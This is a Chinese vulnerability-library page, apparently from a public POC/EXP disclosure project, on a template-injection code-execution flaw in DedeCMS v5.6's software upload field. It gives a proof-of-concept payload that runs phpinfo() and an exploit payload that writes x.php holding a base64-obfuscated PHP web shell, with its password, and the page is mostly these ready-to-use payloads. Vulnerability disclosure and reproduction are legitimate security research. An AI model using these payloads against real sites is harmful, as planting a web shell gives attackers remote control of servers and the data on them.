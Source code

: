 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.bylibrary.cn](https://www.bylibrary.cn/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%20v5.6%20%E5%B5%8C%E5%85%A5%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/)

> 白阁文库是白泽 Sec 团队维护的一个漏洞 POC 和 EXP 披露以及漏洞复现的开源项目，欢迎各位白帽子访问白阁文库并提出宝贵建议。

[](https://github.com/BaizeSec/bylibrary/blob/main/docs/%E6%BC%8F%E6%B4%9E%E5%BA%93/01-CMS%E6%BC%8F%E6%B4%9E/DedeCMS/DedeCms%20v5.6%20%E5%B5%8C%E5%85%A5%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md "编辑此页")

漏洞简介 [¶](#_1 "Permanent link")
------------------------------

在上传软件的地方，对本地地址没有进行有效的验证，可以被恶意利用。

影响版本 [¶](#_2 "Permanent link")
------------------------------

DedeCms v5.6

复现 [¶](#_3 "Permanent link")
----------------------------

注册会员，上传软件：本地地址中填入如下：

### POC[¶](#poc "Permanent link")

```
a{/dede:link}{dede:toby57 name\="']=0;phpinfo();//"}x{/dede:toby57}，
```

发表后查看或修改即可执行。

### EXP[¶](#exp "Permanent link")

```
a{/dede:link}{dede:toby57 name\="']=0;fputs(fopen(base64_decode(eC5waHA),w),base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeGlhb10pPz5iYWlkdQ));//"}x{/dede:toby57}
```

生成 x.php 密码：xiao 直接生成一句话。

参考 [¶](#_4 "Permanent link")
----------------------------

知道创宇：[https://www.seebug.org/vuldb/ssvid-20352](https://www.seebug.org/vuldb/ssvid-20352)

* * *

最后更新: 2021-03-24